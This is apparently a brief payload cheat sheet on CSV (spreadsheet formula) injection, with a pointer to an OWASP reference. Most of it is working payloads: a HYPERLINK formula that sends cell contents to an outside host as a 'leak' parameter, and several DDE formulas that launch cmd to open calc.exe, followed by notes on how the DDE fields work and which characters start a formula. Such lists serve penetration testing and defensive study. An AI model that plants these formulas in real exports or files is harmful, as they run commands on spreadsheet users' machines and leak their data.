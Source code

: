 # CSV_Injection

## Payload
```
=HYPERLINK("http://contextis.co.uk?leak="&A1&A2,"Error: please click for further information")
=DDE(server; file; item; mode)
=DDE("cmd";"/C calc";"__DdeLink_60_870516294")
=cmd|' /C calc'!A0

DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+1)*cmd|' /C calc'!A0

Technical Details of the above payload:
cmd is the name the server can respond to whenever a client is trying to access the server
/C calc is the file name which in our case is the calc(i.e the calc.exe)
!A0 is the item name that specifies unit of data that a server can respond when the client is requesting the data
```
Any formula can be started with
```
=
+
–
@
```
## Reference: 
* https://www.owasp.org/index.php/CSV_Injection

